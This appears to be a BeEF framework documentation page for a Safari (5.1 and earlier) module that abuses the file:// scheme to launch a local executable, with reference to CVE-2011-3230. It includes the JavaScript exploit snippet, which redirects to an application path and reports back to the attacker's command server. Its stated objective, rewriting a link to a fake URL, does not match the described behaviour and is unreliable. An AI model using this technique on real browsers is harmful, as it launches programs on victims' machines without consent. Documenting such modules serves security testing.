 ## Summary

* **Objective**: rewrite a selected real URL link to a fake url
* **Authors**: antisnatchor
* **Browsers**: Safari <= 5.1 on OSX

* [Code](https://github.com/beefproject/beef/tree/master/modules/local_host/safari_launch_app)

## Internal Working

uses the `file://` scheme to launch an executable

```js
baseTag.setAttribute('href', 'file://');
document.head.appendChild(baseTag);
setTimeout('document.location="<%= @app_path %>";beef.net.send("<%= @command_url %>", <%= @command_id %>, "Command [<%= @app_path %>] launched");', 1000);
```

## References
See CVE-2011-3230 for more details.

## Feedback
